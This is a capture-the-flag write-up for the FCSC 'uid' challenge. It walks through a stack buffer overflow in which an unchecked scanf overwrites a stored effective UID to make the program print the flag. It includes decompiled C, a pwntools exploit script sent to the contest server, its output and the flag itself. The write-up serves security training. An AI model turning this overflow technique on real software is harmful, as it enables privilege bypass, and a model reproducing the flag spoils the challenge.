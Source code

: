 # Intro / uid

## Challenge
On vous demande d'exploiter le binaire fourni pour lire le fichier flag.txt qui se trouve sur le serveur distant.

## Inputs
- server at challenges.france-cybersecurity-challenge.fr:2100
- binary:  [uid](./uid)


## Solution
Disassembing the binary in `Ghidra` shows the following:
```c
undefined8 main(void)

{
  undefined local_38 [44];
  __uid_t local_c;
  
  local_c = geteuid();
  printf("username: ");
  fflush(stdout);
  __isoc99_scanf(&DAT_0010200f,local_38);
  if (local_c == 0) {
    system("cat flag.txt");
  }
  else {
    system("cat flop.txt");
  }
  return 0;
}
```

Takeaways:
- effective UID is read and stored in a local variable
- some input is read from `stdin` without protection, so there's a buffer overflow here
- the local variable needs to be 0 to dump the flag

Because of the buffer overflow, we can modify the local variable on the stack and modify it to 0.

We can also automate the interaction with the server by using `pwntools` like so:
```python
from pwn import *

def flush():
    log.info(p.clean().decode().strip())

p = remote('challenges.france-cybersecurity-challenge.fr', 2100)
payload = flat(b'A' * 43, b'\0'*4)
flush(); p.sendline(payload); flush()
```

Here's the execution output:
```console
$ python3 sol.py
[+] Opening connection to challenges.france-cybersecurity-challenge.fr on port 2100: Done
[*] username:
[*] FCSC{3ce9bedca72ad9c23b1714b5882ff5036958d525d668cadeb28742c0e2c56469}
[*] Closed connection to challenges.france-cybersecurity-challenge.fr port 2100
```

## Python code
Complete solution in [sol.py](./sol.py)

## Flag
FCSC{3ce9bedca72ad9c23b1714b5882ff5036958d525d668cadeb28742c0e2c56469}

